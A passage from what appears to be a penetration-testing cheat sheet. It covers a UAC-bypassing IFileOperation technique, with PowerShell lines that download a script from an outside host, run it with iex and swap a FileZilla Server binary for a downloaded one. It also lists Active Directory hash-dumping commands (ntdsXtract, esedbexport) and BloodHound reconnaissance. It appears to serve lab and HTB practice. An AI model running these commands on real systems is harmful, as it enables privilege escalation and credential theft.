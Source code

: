 - ftp.exe to open processes: <https://twitter.com/yeyint_mth/status/1009732492138442752>
- If the user is a member of the Administrators group then, we can invoke IFileOperation methods to copy, move, rename, create, and delete files without any additional permissions. This is a well-known technique used by malware.
  - <https://docs.microsoft.com/en-us/windows/win32/api/shobjidl_core/nn-shobjidl_core-ifileoperation>
  - While using the IFileOperation by default it doesn’t ask for the UAC Popup
    - `iwr -UseBasicParsing -Uri ​'http://10.10.1.2/FileZilla Server.exe'​ -OutFile 'C:\Users\sysadmin\AppData\Local\Temp\FileZilla Server.exe'`
    - `iex (New-Object Net.WebClient).DownloadString('http://​10.10.1.2​/Invoke-IFileOperation.ps1')`
    - `Invoke-IFileOperation`
    - `$IFileOperation | Get-Member`
    - `$IFileOperation.RenameItem("C:\Program Files (x86)\FileZilla Server\FileZilla Server.exe", "Original.exe")`
    - `$IFileOperation.PerformOperations()`
    - `$IFileOperation.MoveItem("​C:\Users\sysadmin\AppData\Local\Temp\FileZilla Server.exe​", "​C:\Program Files (x86)\FileZilla Server\", "FileZilla Server.exe​")`
    - `$IFileOperation.PerformOperations()`
### Tools 

- Patch Extractor : [https://gist.github.com/moshekaplan/e8d16ed91dc3ca53e73145ba3b2baebd](https://gist.github.com/moshekaplan/e8d16ed91dc3ca53e73145ba3b2baebd) [https://gist.github.com/anonymous/d55f494982c0097111d3263cf7099c9d](https://gist.github.com/anonymous/d55f494982c0097111d3263cf7099c9d)
- ntdsXtract - Active Directory forensic framework: <https://github.com/csababarta/ntdsxtract>
  - Extract users from ESE DB export:
    ```bash
    dsusers.py kotarak.dit.export/datatable.3 kotarak.dit.export/link_table.5 hashdump --syshive
    kotarak.bin --passwordhashes --lmoutfile lmout.txt --ntoutfile ntout.txt --pwdformat ophc
    ```
  - Practice:
    - HTB: Kotarak
- LibEseDB - library to access the Extensible Storage Engine (ESE) Database File (EDB) format: <https://github.com/libyal/libesedb>
  - The ESE database format is used in may different applications like Windows Search, Windows Mail, Exchange, Active Directory, etc.
  - Dump tables:
    ```
    esedbexport -m tables 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit  
    ```
  - Practice:
    - HTB: Kotarak
- WinEXE - remotely executes commands on Windows NT/2000/XP/2003 systems from GNU/Linux (and possibly also from other Unices capable of building the Samba 4 software package): <https://sourceforge.net/projects/winexe/>
- PowerUpSQL: 
  - Dumping Active Directory Domain Info – with PowerUpSQL!: <https://blog.netspi.com/dumping-active-directory-domain-info-with-powerupsql/>
- Bloodhound - uses graph theory to reveal the hidden and often unintended relationships within an Active Directory environment. Attackers can use BloodHound to easily identify highly complex attack paths that would otherwise be impossible to quickly identify: <https://github.com/BloodHoundAD/BloodHound>
  - BloodHound uses graph theory to reveal the hidden and often unintended relationships within an Active Directory environment: [https://github.com/BloodHoundAD/BloodHound](https://github.com/BloodHoundAD/BloodHound)
  - Find where domain admins are logged in:
    ```
    python http://bloodhound.py  -u <USERNAME> -p <PASSWORD> -d <DOMAIN_NAME> -dc <DOMAIN_CONTROLLER_HOSTNAME>
    neo4j start
    bloodhound
    ```
- LDIFDE: Import/Export information from AD
- Sys Internals: <https://technet.microsoft.com/en-in/sysinternals/bb545021.aspx>
